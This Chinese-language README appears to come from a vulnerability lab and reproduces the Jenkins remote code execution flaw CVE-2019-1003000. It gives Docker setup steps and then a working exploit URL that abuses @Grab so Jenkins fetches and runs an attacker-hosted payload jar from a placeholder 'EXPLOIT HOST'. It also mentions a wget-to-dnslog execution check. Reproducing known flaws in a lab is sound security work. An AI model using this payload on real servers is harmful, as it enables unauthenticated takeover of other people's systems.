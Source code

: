 # Jenkins 远程代码执行漏洞（CVE-2019-1003000)


## 原理

参考阅读:

https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC

## 测试环境搭建
测试环境编译及运行：

```
docker pull her0ma/CVE-2019-1003000
docker run -d -p 8080:8080 her0ma/cve-2019-1003000
```
也可以进入当前文件所在目录，基于Dockerfile文件构建镜像并搭建漏洞环境，操作如下：

1、基于Dockerfile构建镜像

```
docker build -t cve-2019-1003000 .
```
2、下载漏洞插件，下载地址如下：

* Pipeline: Declarative插件1.3.4版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/pipeline-model-definition/1.3.4/pipeline-model-definition.hpi

* Script Security插件1.48版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/script-security/1.48/script-security.hpi
* Pipeline: Groovy插件2.60版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/workflow-cps/2.60/workflow-cps.hpi

3、运行并进入容器，查看初始密码，初始密码位置

```
/var/jenkins_home/secrets/initialAdminPassword
```
4、安装推荐插件，设置管理密码，并登陆管理账号,插件管理-高级功能，上传安装上文中下载的三个漏洞插件。

5、安装插件完成之后，选择重启Jenkins。
## 测试过程
### 1、生成执行命令的Jar文件
生成执行命令的jar包所需的文件都在payload目录下，如下：

* Payload.java 执行命令的Java文件源代码，可以根据测试情况修改其中的命令。
* META-INF 目录中保存了执行JAR包所依赖的方法类

执行build.sh文件，编译生成jar包。

### 2、将jar包放到另外一台可访问的web目录下
存在payload-1.jar文件的目录很重要，如：

```
http://Exploit-HOST/package/payload/1/payload-1.jar
http://Exploit-HOST/package/payload/2/payload-2.jar
```

### 3、访问漏洞利用URL，执行命令
具体漏洞测试url如下：

```
http://<TARGET HOST>/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile
?value=
@GrabConfig(disableChecksums=true)%0a
@GrabResolver(name='payload', root='http://<EXPLOIT HOST>')%0a
@Grab(group='package', module='payload', version='1')%0a
import Payload;
```
EXPLOIT HOST是保存了JAR文件的服务器IP或域名，group、module、version的值对应了该jar文件的存放路径。修改version的值，对应的jar包的访问路径和文件名也需要发生改变。

访问url的时候，成功利用的之后，请求回显如图：

![](4.png)

查看EXPLOIT HOST的web日志，会看到如下记录：

![](1.png)

说明成功请求下载了执行命令的jar文件，进入容器，可以在如下目录中看到对应的jar文件：

![](2.png)

可利用wget dnslog地址的方式来判断是否成功执行了命令，成功的如图：

![](3.png)

